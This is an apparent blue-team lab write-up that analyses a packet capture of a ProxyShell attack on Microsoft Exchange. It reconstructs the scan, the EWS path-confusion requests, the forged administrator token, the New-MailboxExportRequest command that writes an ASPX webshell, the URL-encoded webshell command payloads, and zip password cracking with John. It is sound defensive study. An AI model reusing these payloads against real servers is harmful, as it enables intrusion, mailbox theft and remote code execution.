

# ProxyShell Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/proxyshell/](https://cyberdefenders.org/blueteam-ctf-challenges/proxyshell/)

Suggested tools: Wireshark, Network Miner, Brim, JohnTheRipper, [Apackets.com](http://apackets.com/)

Tactics: Reconnaissance, Initial Access, Execution, Persistence

# Scenario

As a SOC analyst, you received an IDS alert indicating port scanning activities on the network. You were provided with a PCAP file containing captured network traffic to investigate further. It is crucial to note that during this period, threat actors were known to exploit the proxy shell vulnerability. Your task is to analyze the network traffic and uncover any signs of malicious intent.

# Questions

Q1- What is the attacker's IP address?

Answer: `192.168.112.128`

Reason: Frames 143-155 (timestamp `2022-03-28 17:32:23 UTC`) show `192.168.112.128` sending near-simultaneous TCP `SYN` packets to `192.168.112.139` across many distinct destination ports (`3389`, `113`, `554`, `8888`, `110`, `23`, `143`, `21`, `445`, etc.), all within the same second. `192.168.112.139` only replies with `SYN, ACK` or `RST, ACK`, confirming it is the scan target, not the initiator. This rapid multi-port `SYN` sweep from a single source to a single destination is the classic signature of a TCP port scan, identifying `192.168.112.128` as the attacker and `192.168.112.139` as the victim/target host.



Q2- By analyzing the pcap using Zui, you will get an alert related to the Nmap scan. What is the alert signature ID?

Answer: 2024364

Reason: Querying `my_capture.pcap` in Zui with `alert.signature_id==2024364 | sort ts` returns multiple `alert` events starting at `2022-03-28T17:34:19.752142Z`, each with `src_ip: 192.168.112.128`, `dest_ip: 192.168.112.139`, and `app_proto: http`. Expanding one record shows `signature: ET SCAN Possible Nmap User-Agent Observed`, `category: Web Application Attack`, and `signature_id: 2024364`, confirming this Suricata rule fired on HTTP requests from the attacker host `192.168.112.128` carrying an Nmap-identifiable User-Agent string, consistent with the earlier TCP port scan activity against `192.168.112.139`.


Q3- `[Google Search]` Multiple vulnerabilities were chained together to exploit this attack chain. What is the CVE of the chained vulnerabilities? Submit the answer in ascending order.

Answer: CVE-2021-31207, CVE-2021-34473, CVE-2021-34523

Reason: These three CVEs make up the ProxyShell exploit chain against Microsoft Exchange Server. `CVE-2021-34473` is a pre-authentication path confusion flaw that lets an attacker bypass ACL restrictions on backend URLs. `CVE-2021-34523` is a privilege elevation vulnerability in the Exchange PowerShell backend, allowing the attacker to run as a highly privileged user. `CVE-2021-31207` is a post-authentication security feature bypass that permits arbitrary file write, which is used to drop a web shell for remote code execution. Chained in that order, they take an unauthenticated attacker from initial access to full RCE on the Exchange server.

Q4- `[Google Search]` Shodan posted a search query to track vulnerable Exchange servers. What is this query?

Answer: `http.title:outlook exchange`

Reason: This Shodan search query targets internet-facing hosts whose HTTP response title contains "outlook exchange," which is how Microsoft Exchange Server's default Outlook Web App login page identifies itself. Researchers and Shodan used this query during the ProxyShell disclosure period to enumerate internet-exposed Exchange servers that were potentially vulnerable to the CVE-2021-34473 / CVE-2021-34523 / CVE-2021-31207 exploit chain.

Q5- The attacker was able to read the inbox of ashawky user. What is the endpoint URI path used to read the emails?

Answer: `/EWS/exchange.asmx`

Reason: Stream `tcp.stream eq 4751, http2.streamid eq 1` (2022-03-28 17:36:14 UTC) shows a `POST` request from `192.168.112.128` to `192.168.112.139` with `:path: /Autodiscover/autodiscover.json?a=dummy@dummy.pw/EWS/exchange.asmx`. This is the ProxyShell path-confusion payload (`CVE-2021-34473`): by appending `/EWS/exchange.asmx` after a crafted Autodiscover query string, the request is routed to the backend Exchange Web Services endpoint without authentication. The SOAP body (`m:ResolveNames`) confirms the request is interacting with EWS, which is the API surface Exchange exposes for mailbox operations including reading a user's inbox, consistent with the attacker using `/EWS/exchange.asmx` to access `ashawky`'s mailbox content.


Q6- Analyze the email read by the attacker. What is the sender's email address?

Answer: `malharamel@cyberdefenders.org`

Reason: The `GetItemResponse` SOAP reply in frame `10721` (2022-03-28 17:37:30 UTC, `192.168.112.139 → 192.168.112.128`, HTTP2/XML) contains a `t:MimeContent` element with base64-encoded MIME content. Decoding that base64 blob reveals the raw email headers, including `From: "Muhammed MA. Alharamel" <malharamel@cyberdefenders.org>`, confirming the sender of the email the attacker read from `ashawky`'s inbox via the EWS `GetItem` request.

```bash
# HTTP object from packet 10721
<?xml version="1.0" encoding="utf-8"?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Header><h:ServerVersionInfo MajorVersion="15" MinorVersion="1" MajorBuildNumber="2106" MinorBuildNumber="2" Version="V2017_07_11" xmlns:h="http://schemas.microsoft.com/exchange/services/2006/types" xmlns="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"/></s:Header><s:Body xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"><m:GetItemResponse xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types"><m:ResponseMessages><m:GetItemResponseMessage ResponseClass="Success"><m:ResponseCode>NoError</m:ResponseCode><m:Items><t:Message><t:MimeContent CharacterSet="UTF-8">UmVjZWl2ZWQ6IGZyb20gdXRzYWVkdS1jdGYuY3liZXJkZWZlbmRlcnMub3JnICgxOTIuMTY4LjExMi4xMzkpIGJ5DQogdXRzYWVkdS1jdGYuY3liZXJkZWZlbmRlcnMub3JnICgxOTIuMTY4LjExMi[...]
# From: "Muhammed MA. Alharamel" <malharamel@cyberdefenders.org> after decoding the b64 object inside <t:MimeContent CharacterSet="UTF-8">
ubuntu@ip-172-31-28-80:~/Desktop/Start here$ tshark -r Artifacts/my_capture.pcap -t ad -Y "frame.number==10721"
10721 2022-03-28 17:37:30.101058 192.168.112.139 → 192.168.112.128 HTTP2/XML 104 DATA[1]
```

Q7- What is the secret flag hidden in email?

Answer: `y0u_d353rv3_th15_f146`

Reason: The "To-Do list" email (sent 2022-03-28 01:19:25 UTC from `malharamel@cyberdefenders.org` to `ashawky@cyberdefenders.org`) carried a base64-encoded `application/zip` attachment named `To-Do.zip`, identified by its PK zip magic header. Extracting and decoding the base64 blob from the MIME body produced the zip file, which was AES-encrypted. Running `zip2john To-Do.zip > zip.hash` followed by `john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash` cracked the password as `liverpool` in under a second. Extracting `To-Do.zip` with that password using `7z x To-Do.zip` yielded `flag.txt` containing the secret flag `y0u_d353rv3_th15_f146`.

```bash
# Same packet above, actual content, save b64 as zip file (identified by CyberChef magic header)
Content-Type: application/zip; name="To-Do.zip"
Content-Description: To-Do.zip
Content-Disposition: attachment; filename="To-Do.zip"; size=387;
	creation-date="Mon, 28 Mar 2022 01:19:19 GMT";
	modification-date="Mon, 28 Mar 2022 01:19:19 GMT"
Content-Transfer-Encoding: base64

UEsDBDMDAQBjAEAZfFQAAAAAKQAAABUAAAAIAAsAZmxhZy50eHQBmQcAAgBBRQEAAD7EneFEOGyE
70Z5SxnaGXbNBXDCMv3pSO+05KzR+Go2phnGvLvwpAVJUEsBAj8DMwMBAGMAQBl8VAAAAAApAAAA
FQAAAAgALwAAAAAAAAAggKSBAAAAAGZsYWcudHh0CgAgAAAAAAABABgAgE1Pi0BC2AEADw9mQULY
AYA9Hl1BQtgBAZkHAAIAQUUBAABQSwUGAAAAAAEAAQBlAAAAWgAAAAAA

$ zip2john To-Do.zip > zip.hash                      
                                                                                                                                         
$ john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 512/512 AVX-512 16x])
Cost 1 (HMAC size [KiB]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
liverpool        (To-Do.zip/flag.txt)     

$ 7z x To-Do.zip 
$ cat flag.txt 
y0u_d353rv3_th15_f146
```

Q8- The attacker dropped two webshell. What is the filename of the first webshell?

Answer: `aapqpuoakxffiyjf.aspx`

Reason: Using Wireshark's HTTP Requests statistics view on the decrypted pcap, two `.aspx` webshell filenames appear under `/aspnet_client/`: `aapqpuoakxffiyjf.aspx` and `focemhmspexgqkqi.aspx`. Cross-referencing frame timestamps, `aapqpuoakxffiyjf.aspx` is first accessed at `2022-03-28 17:38:52 UTC` (frame 11198), while `focemhmspexgqkqi.aspx` first appears at `2022-03-28 17:39:38 UTC` (frame 12327), roughly 46 seconds later, confirming `aapqpuoakxffiyjf.aspx` as the first of the two.

Tracing how it was actually written: following `tcp.stream eq 4923` (a `POST` to `/autodiscover/autodiscover.json?@test.com/powershell/` carrying the forged `X-Rps-CAT` impersonation token for `Administrator@cyberdefenders.org`) shows a WS-Management `Command` action whose `<rsp:Arguments>` element is base64-encoded. Decoding it yields a binary PSRP (PowerShell Remoting Protocol) fragment wrapping a UTF-16LE CliXML-serialized command object. Running that decode through CyberChef (`From Base64` then `Remove null bytes`, since the CliXML payload is UTF-16LE and renders as null-interleaved text in ASCII/UTF-8) reveals the plaintext cmdlet

`New-MailboxExportRequest` is a legitimate Exchange Management Shell cmdlet intended to export mailbox content to a file for compliance purposes; it is a file-write primitive, not a code-execution primitive on its own. Two separate CVEs combine to weaponize it here: `CVE-2021-34523` grants the attacker an authorized, privilege-escalated Remote PowerShell session (via the forged `X-Rps-CAT` token impersonating `Administrator`) needed to run the cmdlet at all, and `CVE-2021-31207` is the missing restriction on the cmdlet's `-FilePath` parameter, which should be limited to legitimate export locations but instead let the attacker point it at the IIS-served, web-executable directory `wwwroot\aspnet_client\`. The `-ContentFilter` and `-IncludeFolders "#Drafts#"` parameters target a single, attacker-planted draft email in the `Administrator` mailbox whose `Subject` matches `aapqpuoakxffiyjf` and whose body contains the raw ASPX webshell code; exporting that one message to the `aspnet_client` directory is what materializes it as a live `.aspx` file on disk. Actual remote code execution only occurs afterward, when IIS parses and runs that dropped `.aspx` file in response to the subsequent `GET` requests carrying `?cmd=` parameters observed earlier.

```bash
# Decrypted Wireshark HTTP Requests from Statistics
 /aspnet_client/focemhmspexgqkqi.aspx?cmd=Response.Write%28%22dpmhva%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+more+Important.txt%22%29.StdOut.ReadAll%28%29+%2B+%22dpmhva%22%29%3B                                                                                        1                                                       0.0000        1.27%         0.0100        634.030
    /aspnet_client/focemhmspexgqkqi.aspx?cmd=Response.Write%28%22dpmhva%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+dir+C%3A%22%29.StdOut.ReadAll%28%29+%2B+%22dpmhva%22%29%3B                                                                                                  1                                                       0.0000        1.27%         0.0100        491.269
    /aspnet_client/focemhmspexgqkqi.aspx?cmd=Response.Write%28%22dpmhva%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+dir+..%2F%22%29.StdOut.ReadAll%28%29+%2B+%22dpmhva%22%29%3B                                                                                                 1                                                       0.0000        1.27%         0.0100        547.490
    /aspnet_client/focemhmspexgqkqi.aspx?cmd=Response.Write%28%22dpmhva%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+dir%22%29.StdOut.ReadAll%28%29+%2B+%22dpmhva%22%29%3B                                                                                                       3                                                       0.0000        3.80%         0.0100        500.124
    /aspnet_client/focemhmspexgqkqi.aspx?cmd=Response.Write%28%22dpmhva%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+cd+..%22%29.StdOut.ReadAll%28%29+%2B+%22dpmhva%22%29%3B                                                                                                     2                                                       0.0000        2.53%         0.0100        498.821
    /aspnet_client/focemhmspexgqkqi.aspx                                                                                                                                                                                                                                                                     2                                                       0.0000        2.53%         0.0100        478.164
    /aspnet_client/aapqpuoakxffiyjf.aspx?cmd=Response.Write%28%22bjyltx%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+whoami%22%29.StdOut.ReadAll%28%29+%2B+%22bjyltx%22%29%3B                                                                                                    1                                                       0.0000        1.27%         0.0100        447.544
    /aspnet_client/aapqpuoakxffiyjf.aspx?cmd=Response.Write%28%22bjyltx%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+more+C%3A%5CImportant.txt%22%29.StdOut.ReadAll%28%29+%2B+%22bjyltx%22%29%3B                                                                                 1                                                       0.0000        1.27%         0.0100        456.654
    /aspnet_client/aapqpuoakxffiyjf.aspx?cmd=Response.Write%28%22bjyltx%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+dir+C%3A%5C%22%29.StdOut.ReadAll%28%29+%2B+%22bjyltx%22%29%3B                                                                                               1                                                       0.0000        1.27%         0.0100        463.965
    /aspnet_client/aapqpuoakxffiyjf.aspx

===================================================================
Follow: http,ascii
Filter: tcp.stream eq 4923
Node 0: 192.168.112.128:47998
Node 1: 192.168.112.139:443
507
POST /autodiscover/autodiscover.json?@test.com/powershell/?X-Rps-CAT=VgEAVAdXaW5kb3dzQwBBCEtlcmJlcm9zTCBBZG1pbmlzdHJhdG9yQGN5YmVyZGVmZW5kZXJzLm9yZ1UsUy0xLTUtMjEtMjM3Mjg2MzY5Ny02MzI1NTY1MDItMjI5MzE2MzA4MS01MDBHAQAAAAcAAAAMUy0xLTUtMzItNTQ0RQAAAAA=&Email=autodiscover/autodiscover.json%3F@test.com HTTP/1.1
Host: 192.168.112.139
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/soap+xml;charset=UTF-8
Content-Length: 4877

`New-MailboxExportRequest -Mailbox Administrator@cyberdefenders.org -IncludeFolders "#Drafts#" -FilePath "\\localhost\c$\inetpub\wwwroot\aspnet_client\aapqpuoakxffiyjf.aspx" -ContentFilter "Subject -eq 'aapqpuoakxffiyjf'"`
```

Q9- What is the first command executed by the attacker?

Answer: `whoami`

Reason: Filtering `http.request.uri` for `aapqpuoakxffiyjf.aspx` shows two bare `GET` requests (frames 11198, 11222) with no `cmd` parameter, just confirming the webshell was live. The first request carrying an actual `cmd` parameter is frame `11467` (`2022-03-28 17:39:07 UTC`): `GET /aspnet_client/aapqpuoakxffiyjf.aspx?cmd=Response.Write%28%22bjyltx%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+whoami%22%29.StdOut.ReadAll%28%29+%2B+%22bjyltx%22%29%3B`. URL-decoding this in CyberChef resolves to `Response.Write("bjyltx" + new ActiveXObject("WScript.Shell").Exec("cmd.exe /c whoami").StdOut.ReadAll() + "bjyltx");`, confirming `whoami` as the first command executed through the webshell.

```bash
ubuntu@ip-172-31-28-80:~/Desktop/Start here$ tshark -r Artifacts/my_capture.pcap -o "tls.keylog_file:Artifacts/sslkeylog.log" -Y "http.request.uri" | grep aapqpuoakxffiyjf.aspx
11198 432.727172 192.168.112.128 → 192.168.112.139 HTTP 276 GET /aspnet_client/aapqpuoakxffiyjf.aspx HTTP/1.1 
11222 437.760695 192.168.112.128 → 192.168.112.139 HTTP 276 GET /aspnet_client/aapqpuoakxffiyjf.aspx HTTP/1.1 
11467 447.544469 192.168.112.128 → 192.168.112.139 HTTP 437 GET /aspnet_client/aapqpuoakxffiyjf.aspx?cmd=Response.Write%28%22bjyltx%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+whoami%22%29.StdOut.ReadAll%28%29+%2B+%22bjyltx%22%29%3B HTTP/1.1 
11743 456.653793 192.168.112.128 → 192.168.112.139 HTTP 456 GET /aspnet_client/aapqpuoakxffiyjf.aspx?cmd=Response.Write%28%22bjyltx%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+more+C%3A%5CImportant.txt%22%29.StdOut.ReadAll%28%29+%2B+%22bjyltx%22%29%3B HTTP/1.1 
11987 463.964713 192.168.112.128 → 192.168.112.139 HTTP 442 GET /aspnet_client/aapqpuoakxffiyjf.aspx?cmd=Response.Write%28%22bjyltx%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+dir+C%3A%5C%22%29.StdOut.ReadAll%28%29+%2B+%22bjyltx%22%29%3B HTTP/1.1 

# Cyberchef URL decode
11467 447.544469 192.168.112.128 → 192.168.112.139 HTTP 437 GET /aspnet_client/aapqpuoakxffiyjf.aspx?cmd=Response.Write("bjyltx" + new ActiveXObject("WScript.Shell").Exec("cmd.exe /c whoami").StdOut.ReadAll() + "bjyltx"); HTTP/1.1 
```

Q10- The attacker was able to read a file from the system. What is the content of this file?

Answer: `1. Patch the server`

Reason: Frame 14854 (2022-03-28 17:42:14 UTC) shows the attacker running `more Important.txt` through the `focemhmspexgqkqi.aspx` webshell. The HTTP response body is wrapped between `dpmhva` markers, and immediately after the opening marker the readable content is `1. Patch the server`. Everything following that line is non-printable/control-character padding (visible as dots in `xxd`), not meaningful file content, likely an artifact of how `more.com` paginates or terminates output for a file that isn't purely plain text. The actual answer to what the attacker read is the single readable line: `1. Patch the server`.

```bash
# Packet 14854
GET /aspnet_client/focemhmspexgqkqi.aspx?cmd=Response.Write%28%22dpmhva%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+more+Important.txt%22%29.StdOut.ReadAll%28%29+%2B+%22dpmhva%22%29%3B HTTP/1.1
Host: 192.168.112.139
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/10.0
X-AspNet-Version: 4.0.30319
Date: Mon, 28 Mar 2022 17:42:14 GMT
Content-Length: 291823

dpmhva1. Patch the server
dpmhva!BDN..]......SM......................[...................	....@........................................	...	...	................................................................................$.......D.......................G........r......J...........................
[...]
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2022-03-28 17:32:23 | Reconnaissance | `192.168.112.128` sends rapid multi-port TCP SYN scan to `192.168.112.139` (ports `21,23,110,113,143,445,554,3389,8888`) | T1595 - Active Scanning |
| 2022-03-28 17:34:19 | Reconnaissance | Suricata alert `sig_id 2024364` ("ET SCAN Possible Nmap User-Agent Observed") fires on HTTP requests from `192.168.112.128` | T1595.002 - Vulnerability Scanning |
| 2022-03-28 17:35:39 - 17:36:14 | Initial Access | Path confusion via `/Autodiscover/autodiscover.json?a=dummy@dummy.pw/EWS/exchange.asmx` reaches unauthenticated backend EWS endpoint | T1190 - Exploit Public-Facing Application (CVE-2021-34473) |
| 2022-03-28 17:36:14 | Collection | EWS `ResolveNames`/`GetItem` calls read `ashawky`'s mailbox, including email from `malharamel@cyberdefenders.org` | T1114.002 - Remote Email Collection |
| 2022-03-28 17:37:30 | Collection | `GetItemResponse` MimeContent decoded, revealing attached `To-Do.zip` containing flag `y0u_d353rv3_th15_f146` | T1114.002 - Remote Email Collection |
| 2022-03-28 17:38:41 - 17:38:50 | Privilege Escalation | Forged `X-Rps-CAT` token (decodes to `Administrator@cyberdefenders.org`, Kerberos, SID `-500`) used on `/autodiscover/autodiscover.json?@test.com/powershell/` to obtain Remote PowerShell session as Administrator | T1078 - Valid Accounts (CVE-2021-34523) |
| 2022-03-28 17:38:46 | Persistence/Execution | `New-MailboxExportRequest -FilePath "...\aspnet_client\aapqpuoakxffiyjf.aspx"` writes attacker-planted draft email body as a live webshell | T1505.003 - Web Shell (CVE-2021-31207) |
| 2022-03-28 17:38:52 | Execution | First webshell `aapqpuoakxffiyjf.aspx` accessed and confirmed live | T1505.003 - Web Shell |
| 2022-03-28 17:39:07 | Execution | First command run via webshell: `whoami` | T1059 - Command and Scripting Interpreter |
| 2022-03-28 17:39:38 | Persistence | Second webshell `focemhmspexgqkqi.aspx` dropped via the same `New-MailboxExportRequest` technique (second shell session/ShellId) | T1505.003 - Web Shell |
| 2022-03-28 17:42:14 | Discovery | `more Important.txt` executed via second webshell, revealing file content `1. Patch the server` | T1083 - File and Directory Discovery |

## Attack Tree

```bash
└── [Reconnaissance]
    └── `192.168.112.128` → `192.168.112.139`
        ├── TCP SYN scan (multi-port) — 17:32:23
        └── HTTP Nmap User-Agent alert (sig_id `2024364`) — 17:34:19
        └── [Initial Access — CVE-2021-34473 Path Confusion]
            └── POST `/Autodiscover/autodiscover.json?a=dummy@dummy.pw/EWS/exchange.asmx` — 17:36:14
                └── [Collection]
                    ├── EWS `ResolveNames`/`GetItem` reads `ashawky` inbox
                    │   └── Email from `malharamel@cyberdefenders.org`, subject "To-Do list"
                    │       └── Attachment `To-Do.zip` (AES, password `liverpool`)
                    │           └── Flag: `y0u_d353rv3_th15_f146`
                    └── [Privilege Escalation — CVE-2021-34523]
                        └── Forged `X-Rps-CAT` token (Administrator, Kerberos, SID `-500`)
                            └── Remote PowerShell session via `/powershell/` — 17:38:41
                                └── [Persistence — CVE-2021-31207]
                                    └── `New-MailboxExportRequest` writes draft email body to `aspnet_client\`
                                        ├── Webshell 1: `aapqpuoakxffiyjf.aspx` — 17:38:52
                                        │   └── [Execution]
                                        │       └── `whoami` — 17:39:07
                                        │       └── `more C:\Important.txt`
                                        │       └── `dir C:\`
                                        └── Webshell 2: `focemhmspexgqkqi.aspx` — 17:39:38
                                            └── [Discovery]
                                                └── `more Important.txt` → "1. Patch the server" — 17:42:14
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Network | Attacker IP | `192.168.112.128` |
| Network | Victim/Exchange server IP | `192.168.112.139` |
| Detection | Suricata signature | `ET SCAN Possible Nmap User-Agent Observed` (sig_id `2024364`) |
| Vulnerability | CVE chain | `CVE-2021-31207`, `CVE-2021-34473`, `CVE-2021-34523` |
| Reconnaissance | Shodan dork | `http.title:outlook exchange` |
| Exploitation | Path-confusion endpoint | `/EWS/exchange.asmx` (via `/Autodiscover/autodiscover.json?a=dummy@dummy.pw/...`) |
| Exploitation | Forged auth header | `X-Rps-CAT` (decodes to `Administrator@cyberdefenders.org`, SID `S-1-5-21-2372863697-632556502-2293163081-500`) |
| Exploitation | PowerShell write cmdlet | `New-MailboxExportRequest -Mailbox Administrator@cyberdefenders.org -IncludeFolders "#Drafts#" -FilePath "\\localhost\c$\inetpub\wwwroot\aspnet_client\<name>.aspx" -ContentFilter "Subject -eq '<name>'"` |
| Persistence | Webshell 1 | `aapqpuoakxffiyjf.aspx` |
| Persistence | Webshell 2 | `focemhmspexgqkqi.aspx` |
| Collection | Email sender | `malharamel@cyberdefenders.org` |
| Collection | Email recipient | `ashawky@cyberdefenders.org` |
| Collection | Email attachment | `To-Do.zip` (password `liverpool`) |
| Collection | Hidden flag | `y0u_d353rv3_th15_f146` |
| Discovery | File content read | `Important.txt` → `1. Patch the server` |

# Lab Insights

- The entire chain hinges on one class of bug repeated across three CVEs: an early, incomplete trust decision (a URL prefix, a header value) flows forward unchecked into a later, more privileged action. ProxyShell isn't three unrelated bugs, it's the same "confused deputy" pattern exploited at three different layers (frontend auth, Remote PowerShell auth, cmdlet path validation).
- `New-MailboxExportRequest` is not a code-execution primitive by itself, it is a file-write primitive. The actual remote code execution only happens later and separately, when IIS parses and runs the dropped `.aspx` file in response to an ordinary `GET`. Conflating the two steps understates how much legitimate Exchange tooling (not malware) does the heavy lifting here.
- The webshells used GET-only command execution (`?cmd=` query string), which means the entire post-exploitation phase leaves no POST bodies to inspect, command history has to be reconstructed purely from request-line query strings, URL-decoded.
- TLS decryption via a supplied keylog file is read-only and evidence-safe: it doesn't alter the pcap, it only lets Wireshark/tshark unwrap TLS records for display, which is why the `Content Type: Application Data` label never changes even after decryption succeeds.
- Not everything that looks like an encoded/obfuscated payload is one. The `Important.txt` response had a long tail of letters that visually resembled base64 with heavy zero-byte padding (suggesting a hidden image), but it was actually just non-printable control-character noise from `more.com`'s pagination behavior on a non-plain-text stream. The real answer was the first line, verifying the hypothesis (`base64 -d`) before committing to it would have been the correct instinct rather than assuming either way.